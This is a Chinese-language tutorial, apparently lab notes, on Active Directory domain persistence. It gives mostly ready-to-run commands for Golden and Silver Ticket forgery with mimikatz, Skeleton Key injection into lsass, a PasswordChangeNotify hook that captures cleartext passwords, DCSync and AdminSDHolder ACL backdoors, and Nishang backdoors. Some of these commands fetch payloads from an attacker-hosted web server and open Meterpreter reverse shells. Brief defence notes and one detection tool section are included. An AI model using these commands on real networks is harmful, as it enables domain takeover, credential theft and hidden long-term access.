   假设域内存在一个`SID为502`的域账号`krbtg`t。`krbtgt`是`KDC`服务使用的账号，属于`Domain Adminis`组。在域环境中，每个用户账号的票据都是由`krbtgt`生成的，如果拿到了`krbtgt`的`NTLM Hash`或者`AES-256`值，就可以伪造域内任意用户的身份，并以该用户的身份访问其他服务。
```

**在使用黄金票据（Golden Ticket）攻击时，需要以下信息：**

- 需要伪造的域管理员用户名（一般是域管账户）
- 完整的域名
- 域krbtgt  SID（就是域成员krbtgt SID去掉最后的）
- krbtgt 的 NTLM Hash 或 AES-256 值

**实验环境**

域控制器：

- IP：192.168.52.138
- 域名：god.org
- 用户名：administrator
- 密码：hongrisec@2020

域内主机：

- IP：192.168.52.143
- 域名：god.org
- 用户名：hacker
- 密码：Hacker123

##### Golden Ticket利用方法

###### **使用NTLM Hash伪造**

**1、在获取目标主机权限后，通过命令收集信息**

（1）导出krbtgt的NTLM Hash

```
lsadump::dcsync /domain:hacke.testlab /user:krbtgt
```



（2）获取域SID

```
wmic useraccount get name,sid
```

查询SID,这种方法，可以以普通用户权限获取域内所有用户的SID。`god.org`域的`SID`为`S-1-5-21-2952760202-1353902439-2381784089`



（3）获取当前用户的`SID`

```
whoami /all
```



（4）查询域管理员账号

```
net group "domain admins" /domain
```



（5）查询域名

```
ipconfig /all
```



**2、运行mimikatz注入票据**

（1）清空票据

运行mimikatz，清除当前会话中的票据

```
kerberos::purge
```



（2）生成票据

使用mimikatz生成包含`krbtgt`身份的票据,命令执行后会提示保存成功，这时会在本地生成一个名为`Administrator:kiribi`的文件

```
kerberos::golden /admin:administrator /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /krbtgt:58e91a5ac358d86513ab224312314061 /ticket:Administrator.kiribi
```


（3）传递票据并注入内存

将`Aadministrator:kiribi`票据注入内存

```
kerberos::ptt Administrator.kiribi
```


（4）检查当前会话中的票据

刚刚注入的票据就会出现在当前的会话中

```
kerberos::tgt
```



**3、权限验证**

输入`dir \\owa\c$`，成功列出了域控制器C盘的目录，表示身份伪造成功

```
dir \\owa\c$
```


###### **使用ASE-256值伪造**

使用`krbtgt的AES-256`值生成票据并将其注入内存，也可伪造用户。之前导出的`krbtgt的AES-256`值为`40e24d35600583634503c3aa076b39ecc3031a97467103539221472b3897e0c2`如下命令，生成一张票据

```
kerberos::golden /admin:administrator /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /aes256:a780c2c18b3287e3448562a36dccb2d57d11fd398b55ce2cd9b128308cef74df /ticket:Administrator.kiribi
```






###### **Meterpreter上伪造黄金票据**

```
golden_ticket_create -d god.org -k 58e91a5ac358d86513ab224312314061 -u administrator -s S-1-5-21-2952760202-1353902439-2381784089 -t admin.kiribi
kerberos_ticket_purge
kerberos_ticket_use admin.kiribi
kerberos_ticket_list
```




##### Golden Ticket攻击的防御

管理员通常会修改域管理员的密码，但有时会忘记将krbtgt密码一并重置。因此，如果要防御Golden Ticket，需要将krbtgt密码重置两次

使用Golden Ticket伪造的用户可以是任意用户（即使这个用户不存在）。因为TGT的加密是由krbtgt完成的，因此，只要TGT被krbtgt账户和米么正确地加密，那么任意KDC使用krbtgt将TGT解密后，TGT中的所有信息都是可信的。在如下两种情况下才能修改krbtgt密码

- 域功能级别从windows 2000或windows server 2003提升至windows server2008或windows server 2012。在提升域功能的过程中，krbtgt的密码会被自动修改
- 用户自行进行安全检查和相关服务加固时会修改krbtgt的密码


#### Siver Ticket（白银票据）

```
   Silver Ticket(白银票据)`不同于`Golden Ticket`。`Silver Ticket`的利用过程是伪造`TGS`，通过已知的授权服务密码生成一张可以访问该服务的`TGT`。因为在票据生成过程中不需要使用`KDC`,所以可以绕过域控制器，很少留下日志。而`Golden Ticket`在利用过程中需要由`KDC`颁发`TGT`,并且在生成伪造的TGT的20分钟内，TGS不会对该TGT的真伪进行校验。
   Silver Ticket`依赖于服务账号的密码散列值，不用域Golden Ticket利用需要使用krbtgt账号的密码散列值，因此更加隐蔽
   Golden Ticket`使用`krbtgt`账号的密码散列值，利用伪造高权限的TGT向KDC要求颁发拥有任意服务访问权限的票据，从而获取域控制器权限。而`Silver Ticket`会通过相应的服务账号来伪造`TGS`，如LDAP、MSSQL、WinRM、DNS、CIFS等，范围有限，只能获取对应服务的权限。`Golden Ticket`是由`krbtgt`账号加密的，而`Silver Ticket`是由特定的服务账号加密的
```

在使用`Silver Ticket`时需要掌握以下信息

- 域名
- 域SID
- 目标服务器的FQDN
- 可利用的服务
- 服务账号的NTLM Hash
- 需要伪造的用户名


##### Siver Ticket利用方法

###### **实验一：使用Silver Ticket伪造CIFS服务权限**

`CIFS`服务通常用于windows主机之间的文件共享

首先使用当前域用户权限，查询对域控制器的共享目录的访问权限

```
dir \\owa\c$
```



在域控制器上运行mimikatz，获取服务账号的NTLM Hash `09bc0266e773764dc3606744ddbe133d`

```
mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords"
```



清空本地票据缓存,防止其他票据造成影响

```
klist purge
klist
```



在域成员机器上，既不能访问域控制器共享目录的机器中输入命令生成伪造的`Silver Ticket`

```
kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /target:owa.god.org /service:cifs /rc4:529b87b45a40f7d0ac48a420ed674747 /user:hacker /ptt
```



再次验证权限，发现可以访问域控制器的共享目录了




###### **实验二：使用Silver Ticket伪造LDAP服务权限**

使用dcsync从域控制器中获取指定用户的账号和密码散列值

测试以当前权限是否可以使用dcsync与域控制器进行同步,发现失败，当前权限不能进行dcsync操作

```
lsadump::dcsync /dc:owa.god.org /user:krbtgt
```



在域控制器中使用mimikatz获取服务账号NTLM Hash

```
//使用log参数以便复制散列值
mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords"
```



清空当前系统中的票据

```
klist purge
klist
```



生成伪造的Silver Ticket ,在之前不能使用dcsync从域控制器获取krbtgt密码散列值的机器中输入如下命令

```
kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /target:owa.god.org /service:LDAP /rc4:529b87b45a40f7d0ac48a420ed674747 /user:hacker /ptt
```



使用dcsync在域控制器中查询krbtgt的密码散列值

```
lsadump::dcsync /dc:owa.god.org /domain:god.org /user:krbtgt
```



Silver Ticket还可用于伪造其他服务，如创建和修改计划任务、使用WMI对远程主机执行命令、使用PowerShell对远程主机进行管理


##### **Silver Ticket攻击的防御 **

- 装杀软，更新补丁
- 使用组策略在域中进行相应的配置，限制mimikatz在网络中的使用
- 计算机的账号和密码默认每30天更改一次。检查该设置是否生效


#### Skeleton Key(万能密码)

```
   使用Skeleton Key(万能密码)可以对域内权限进行持久化操作
   将Skeleton Key注入到域控制器的lass.exe进程
```

**实验环境**

域控制器

- 主机名：OWA
- IP地址：192.168.52.138
- 用户名：administrator
- 密码：hongrisec@2020

域成员服务器

- 主机名：stu1
- IP地址：192.168.1.2
- 用户名：testuser
- 密码：Hacker123

##### Skeleton Key利用方法

###### **实验一：在mimikaasddddtz中使用Skeleton Key**

1、尝试以当前登录用户身份列出域控制器`C盘`共享目录中的文件。因为此时使用的是一个普通域用户身份，所以系统提示权限不足

```
dir \\192.168.1.1\c$
dir \\dc\c$
```



2、使用域管理员账号和密码进行连接

```
net use \\192.168.52.138\ipc$ "hongrisec@2020" /user:god.org\administrator
dir \\192.168.52.138\c$
```



3、在域控制器中以管理员权限打开`mimikatz`，分别输入如下命令，将`Skeleton Key`注入域控制器的`lsass.exe`进程

```
privilege::debug
misc::skeleton
```



提示`Skeleton Key`已经注入成功。这时，会在域内的所有账号中添加一个`Skeleton Key`,其密码默认为`mimikatz`。接下来，就可以以域内任意用户的身份，配合该`Skeleton Key`，进行域内身份授权验证。在不使用域管理员原始密码的情况下，使用注入的`Skeleton Key`,同样可以成功连接系统。

4、先将之前建立的`ipc$`删除

```
net use \\192.168.52.138\ipc$ /del /y
net use
```



5、输入如下命令，使用域管理员账号和`Skeleton Key`与域控制器建立`ipc$`。成功建立连接，并列出了域控制器`C盘`的共享目录

```
net use \\owa\ipc$ "mimikatz" /user:god.org\administrator
dir \\owa\c$dir \\owa\
```




###### **实验二：在Empire中使用Skeleton Key**

在获取一个`agent`的时,将`skeleton_key`注入后，Empire会提示可以使用密码`mimikatz`进入系统

```
interact MP36CVRH //进入agent
usemodule persistence/misc/skeleton_key*   //加载skeleton_key模块
execute   //执行skeleton_key模块
```

将skeleton_key注入后，Empire提升可以使用密码"mimikatz"进入系统




##### **Skeleton Key攻击防御措施**

**14年，微软增加LSA保护策略，以防止lsass.exe进程被恶意注入，从而防止mimikatz在非允许的情况下提升到Debug权限。通用的Skeleton Key防御措施如下**

- 域管理员用户要设置强口令，确保恶意代码不会在域控制器中执行
- 在所有域用户中启用双因子认证，例如智能卡认证
- 启动应用程序白名单（如AppLocker）以限制mimikatz在域控制器中的运行

**日常网络维护中，注意以下方面，也可有效防范Skeleton Key**

- 向域控制器注入Skeleton Key的方法，只能在64位操作系统中使用，包括Windows server 2012 R2、Windows server 2012、Windows server 2008、Windows server 2008 R2 Windows server 2003 R2 、Windows Server 2003
- 只有具有域管理员权限的用户可以将Skeleton Key注入域控制器的lsass.exe进程
- Skeleton Key被注入后，用户使用现有的密码仍然可以登录系统
- 因为Skeleton Key是被注入lass.exe进程，所以它只存在于内存中。如果域控制器重启，注入的Skeleton Key将会失效。


#### Hook PasswordChangeNotify

```
   Hook PasswordChangeNotify的作用是当用户修改密码后在系统中进行同步。攻击者可利用该功能获取目标用户修改密码时所输入的明文密码
   在修改密码时，用户输入新密码后，LSA会调用PasswordFileter来检查该密码是否符合复杂性要求。如果密码符合复杂性要求，LSA会调用PasswordChangeNotify，在系统中同步密码
```

**dll地址：https://github.com/clymb3r/Misc-Windows-Hacking**

**dll注入脚本：https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1**

##### Hook PasswordChangeNotify利用方法

**1、将DLL源码下载下来，使用 VS 2019的开发环境，MFC设置为在静态库中使用MFC编译工程，生成 `HookPasswordChange.dll`。**



**2、使用`Invoke-ReflectivePEInjection.ps1`将`HookPasswordChange.dll`注入到内存中，在目标系统中启动管理员权限的 Powershell**

```
Import-Module .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll –procname lsass
```



**3、手动修改域控密码**

**一种直接命令修改，另一种可在`Active Directory 用户和计算机`对用户进行修改密码。这里使用命令行修改密码**

```
net user administrator Test
```



**在`C:\Windows\Temp`下可以找到`passwords.txt`，其中记录了新修改的密码**

```
net user administrator Admin!@#123
```




##### **Hook PasswordChangeNotify防御措施**

```
   使用Hook PasswordChangeNotify的方法不需要重启系统、不会在系统磁盘中留下DLL文件、不需要修改注册表。如果Hook PasswordChangeNotify被攻击者利用，网络管理员是很难检测到的。所以，在日常网络维护中，需要对Powershell进行严格的监视，并启用约束语言模式，对Hook PasswordChangeNotify进行防御。
```


#### DCSync权限维持

```
  当我们获得了域内管理员权限，如果我们能修改域内普通用户的权限，使其具有DCSync权限的话，那么普通域用户也能导出域内用户的哈希了！这样可以做一个隐蔽的权限维持！
```

##### **利用条件**

获得以下任一用户的权限：

- Domain Admins组内的用户
- Enterprise Admins组内的用户

##### **利用原理**

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

   该用户即可获得利用DCSync导出域内所有用户hash的权限

##### **实现代码**

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270

##### **利用方法**

###### 域内普通用户添加ACE

**添加ACE的命令如下：**

```
Add-DomainObjectAcl -TargetIdentity "DC=zzx,DC=com" -PrincipalIdentity admin -Rights DCSync -Verbose
```

**补充：**

**删除ACE的命令：**

```
Remove-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```




###### 导出域内所有用户hash

**1.在域内一台登录了admin用户的主机上面，直接使用mimikatz的DCSync功能**

```
mimikatz.exe "lsadump::dcsync /domain:zzx.com /all /csv" exit
```




**2.使用runas实现登录test1用户，再使用DCSync**

(1)弹出cmd

```
runas /noprofile /user:admin cmd
```

弹出的cmd下执行如下命令：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:zzx.com /all /csv" exit
```


(2)不弹框实现

```
runas /noprofile /user:admin cmd c:\users\public\1.bat
```

1.bat的内容如下:

```
c:\mimikatz.exe privilege::debug "lsadump::dcsync /domain:zzx.com /user:administrator /csv" exit>c:\users\public\1.txt
```



**注：**同类的工具还有lsrunas、lsrunase和CPAU


**3.使用powershell实现登录test1用户，再使用DCSync**

(1)弹出cmd

```
$uname="test\test1"                                                      
$pwd=ConvertTo-SecureString "12345678" -AsPlainText –Force                   
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)        
Start-Process -FilePath "cmd.exe" -Credential $cred  
```

弹出的cmd下执行如下命令：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

(2)不弹框实现

```
$uname="test\test1"                                                      
$pwd=ConvertTo-SecureString "12345678" -AsPlainText –Force                   
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)        
Start-Process -FilePath "c:\test\1.bat" -Credential $cred
```

1.bat的内容如下:

```
c:\test\mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit>c:\test\1.txt
```

**注：**

使用wmic在本机实现登录用户test1会失败，错误如下：

```
ERROR:
Description = User credentials cannot be used for local connections
```

##### 自动化检测DCSync后门的方法

  具有高权限但不在高权限组的用户被称之为Shadow Admin，例如上面的的域用户admin，仅通过查询高权限组的成员无法发现域内的Shadow Admin

**检测原理：**

枚举Active Directory中所有用户的ACL，标记出特权帐户

**实现代码：**

https://github.com/cyberark/ACLight

**利用条件：**

- Powershell v3.0
- 域内普通用户权限

**检测方法：**

执行项目中的Execute-ACLight2.bat

生成三个文件：

- Privileged Accounts - Layers Analysis.txt
- Privileged Accounts Permissions - Final Report.csv
- Privileged Accounts Permissions - Irregular Accounts.csv

文件中会显示出所有特权帐户

经测试，ACLight能够检测出被添加DCSync权限的用户admin

**参考资料：**https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync


#### AdminSDHolder权限维持

##### SDProp与AdminSDHolder

```
  受保护对象（通常是一些特权内置账号如Domain Admins、Enterprise Admins等）被系统安全策略保护，以避免这些特权对象被恶意修改或滥用（防止被删除、修改权限等）。每一个被保护的对象由SDProp进程（Security Descriptor Propagation）监控保护，SDProp进程每60分钟运行一次，运行时检查受保护对象的安全描述符，检查将依照AdminSDHolder容器的ACL，如果受保护对象的ACL配置与AdminSDHolder容器的ACL配置不一致，SDProp进程将重写该受保护对象的ACL，使其恢复与AdminSDHolder容器相同的ACL配置。
```

AdminSDHolder位于LDAP中CN=AdminSDHolder,CN=System,DC=de1ay,DC=com，可以理解为AdminSDHolder的ACL配置是一个安全的配置模板。



**AdminCount属性**

被SDProp进程保护的对象会将AdminCount属性设置为1，SDProp进程根据该属性识别哪些对象是受保护的。值得注意的是，当一个原本受保护的对象从受保护组中移除之后，AdminCount属性不会被重置（仍然保持原来的设置值）。



手动触发SDProp进程：通过LDAP修改fixupInheritance值为1（Windows 2008及后续版本修改runProtectAdminGroupsTask）来触发即时的SDProp进程运行。

AdminSDHolder默认保护的对象（Windows 2008/Windows 2008 R2）：

```
Account Operators
Administrator
Administrators
Backup Operators
Domain Admins
Domain Controllers
Enterprise Admins
Krbtgt
Print Operators
Read-only Domain Controllers
Replicator，Schema Admins
Server Operators
```

**Powerview中提供了可以枚举AdminCount值为1的对象：**

```
import-module .\Powerview.ps1;Get-NetUser -Admincount
import-module .\Powerview.ps1;Get-NetGroup -Admincount
```





##### 利用AdminSDHolder和SDProp实现隐蔽的权限维持

已经拿到域管权限，利用域管权限，修改AdminSDHolder的ACL配置，这样当SDProp进程运行时以AdminSDHolder的ACL为模板进行受保护对象ACL配置检查时，将会把添加进去的配置同步到受保护对象的ACL中。

- 1.将目标用户添加到AdminSDHolder对象的ACL中，使其拥有“完全控制”权限或“修改”权限，这一步操作需要域管权限；
- 2.等待SDProp进程运行，SDProp运行之后，目标用户将成为域管理员组的成员，该用户可以修改域管理员组成员关系，意味着其可以将其他账号提升为域管理员（注意该用户并不属于域管理员组，直接查看该用户的memberof属性是没有域管组的，但是因为域管理员组的ACL中有一条对该用户的权限分配，因此其对域管组有权限）；

**利用Powerview集成的函数可以实现上述攻击。**

**脚本地址：https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1**

```
#为AdminSDHolder容器添加ACL，为用户admin分配完整权限。
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity AdminSDHolder -PrincipalIdentity admin -Rights All

#查询AdminSDHolder的ACL配置，确认admin用户已对AdminSDHolder具有权限
Get-DomainObjectAcl adminsdholder | ?{$_.SecurityIdentifier -match "S-1-5-21-2756371121-2868759905-3853650604-2603"} | select objectdn,ActiveDirectoryRights |sort -Unique
```

match后面的sid为admin的sid，倘若结果如下图，则admin已经对adminsdholder有了完全控制权限。



也可以通过图形户页面来验证，在域控上运行窗口中输入adsiedit.msc:





```
Get-DomainObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | select SecurityIdentifier,ActiveDirectoryRights
```



**等待SDProp进程运行完成或运行Invoke-ADSDPropagation.ps1脚本来触发SDProp的运行**

脚本地址：https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1

```
#使用Invoke-ADSDPropagation.ps1脚本触发SDProp运行
Import-Module .\Invoke-ADSDPropagation.ps1;Invoke-ADSDPropagation -TaskName runProtectAdminGroupsTask

#检测admin用户不在管理组内
net user admin
```



**登陆到admin的账户上后，将当前用户添加到管理员组内**

```
net group "Domain admins" admin /add /domain
```




### Nishang下的脚本后门

#### Add-ScrnSaveBackdoor脚本

```
 Nishang框架包含一个PowerShell脚本，该脚本也可以执行此攻击，但与其他方法相比，它需要管理级别的特权，因为它在本地计算机中使用注册表项来存储将执行远程托管有效负载的PowerShell命令。这种技术的好处是它不会接触磁盘。
```

下载地址：https://github.com/samratashok/nishang/blob/master/Backdoors/Add-ScrnSaveBackdoor.ps1

**1、在Kali系统系统上能够使用Metasploit Web交付模块生成并托管PowerShell负载**

```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.23.131
exploit
```



**2、在目标主机上运行如下命令，当用户会话变为空闲，屏幕保护程序将会执行PowerShell负载**

```
Import-Module .\Add-ScrnSaveBackdoor.ps1
Add-ScrnSaveBackdoor -PayloadURL http://192.168.23.131:8080/kU3ol1rIh21Y
```

- PayloadURL:指定需要下载的脚本地址
- -Arguments:执行需要执行的函数及相关参数



**成功反弹Meterpreter会话**




#### Execute-OnTime脚本

```
  xecute-Ontime脚本用于在目标主机上指定powershell脚本的执行时间，与HTTP-Backdoor脚本使用方法类似，只是增加了定时功能
```

下载地址：https://github.com/samratashok/nishang/blob/master/Backdoors/Execute-OnTime.ps1

```
powershell.exe -exec bypass -Command "Import-Module .\Execute-OnTime.ps1;Execute-Ontime -PayloadURL http://192.168.23.1/backdoor.ps1 -Arguments Backdoor -Time 23:30 -CheckURL http://192.168.23.1/backdoor.ps1 -Stopstring stoppayload"  //backdoor.ps1文件可以用Kali系统MSF生成
```

用Kali系统MSF生成backdoor.ps1文件，将backdoor.ps1脚步放到Web服务器上。等待目标主机设置脚本时间到后自动去Web服务器http://192.168.23.1上下载backdoor.ps1脚本执行，成功反弹Shel


- -PayloadURL:指定下载的脚本地址
- -Arguments：指定要执行的函数名
- -Time:设置脚本执行的时间，如`-Time 23:30`
- -CheeckURL:检测一个指定的URL里是否存在StopString给出的字符串，如果存在就停止执行


#### Invoke-ADSBackdoor脚本

```
  Invoke-ADSBackdoor脚本能够在NTFS数据流中留下一个永久性的后门。不易被发现
  Invoke-ADSBackdoor脚本用于向ADS注入代码并以普通用户权限运行
```

下载地址：https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1

**使用方法：**

```
powershell.exe -exec bypass -Command "Import-Module .\Invoke-ADSBackdoor.ps1;Invoke-ADSBackdoor -PayloadURL http://192.168.23.1/backdoor.ps1"   //backdoor.ps1文件可以用Kali系统MSF生成
```



执行后，手工无法找到其问题，只有执行`dir /a /r`命令才能看到写入的文件

```
dir /a /r
```




### 
